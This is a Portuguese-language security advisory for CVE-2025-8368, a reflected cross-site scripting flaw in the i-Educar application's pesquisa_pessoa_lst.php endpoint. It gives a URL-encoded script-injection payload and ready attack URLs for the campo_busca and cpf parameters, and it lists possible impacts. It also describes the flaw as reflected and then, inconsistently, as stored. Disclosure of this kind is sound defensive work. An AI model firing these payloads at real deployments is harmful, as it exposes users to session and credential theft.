

## CVE-2025-8368: Múltiplos Cross-Site Scripting (XSS) Refletido no endpoint `pesquisa_pessoa_lst.php`

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-8368***

## Resumo

<p style="text-align: justify;">Múltiplas vulnerabilidades de XSS (Cross-Site Scripting Refletido) foram identificadas no endpoint <code>pesquisa_pessoa_lst.php</code> do aplicativo i-Educar. Essa vulnerabilidade permite que invasores injetem scripts maliciosos nos parâmetros <code>campo_busca</code> e <code>cpf</code>.</p>

## Detalhes

Endpoint Vulnerável: `pesquisa_pessoa_lst.php`

Parâmetros: `campo_busca` e `cpf`

<p style="text-align: justify;">O aplicativo não consegue validar e sanitizar adequadamente as entradas do usuário nos parâmetros <code>campo_busca</code> e <code>cpf</code>. Essa falta de validação permite que invasores injetem scripts maliciosos, que são armazenados no servidor. Sempre que a página afetada é acessada, o payload malicioso é executado no navegador da vítima, potencialmente comprometendo os dados e o sistema do usuário.</p>

## PoC

### Payload:

```javascript
  %22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E
```



<p style="text-align: justify;">Esse payload pode ser injetado em qualquer um dos dois parâmetros. Exemplos de URLs de ataque:</p>

#### Parâmetro `campo_busca`

```html
  /intranet/pesquisa_pessoa_lst.php?campo_busca=%22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E
```

#### Parâmetro `cpf`

```html
  /intranet/pesquisa_pessoa_lst.php?cpf=%22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E
```

## Impacto

<p style="text-align: justify;">
    <ul>
        <li>Roubo de cookies de sessão: Invasores podem usar cookies de sessão roubados para sequestrar a sessão de um usuário e executar ações em seu nome.</li>
        <li>Baixar malware: Invasores podem induzir os usuários a baixar e instalar malware em seus computadores.</li>
        <li>Sequestro de navegadores: Invasores podem sequestrar o navegador de um usuário ou aplicar exploits baseados nele.</li>
        <li>Roubo de credenciais: Invasores podem roubar as credenciais de um usuário.</li>
        <li>Obter informações confidenciais: Invasores podem obter informações confidenciais armazenadas na conta de um usuário ou em seu navegador.</li>
        <li>Desfigurar sites: Invasores podem desfigurar um site alterando seu conteúdo.</li>
        <li>Desorientar usuários: Invasores podem alterar as instruções fornecidas aos usuários que visitam o site alvo, desorientando seu comportamento.</li>
        <li>Prejudicar a reputação de uma empresa: Invasores podem prejudicar a imagem de uma empresa ou espalhar desinformação desfigurando um site corporativo.</li>
    </ul>
</p>

## Referência

[https://github.com/CVE-Hunters/CVE/blob/main/i-educar/CVE-2025-8368.md](https://github.com/CVE-Hunters/CVE/blob/main/i-educar/CVE-2025-8368.md)

## Encontrado por:

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***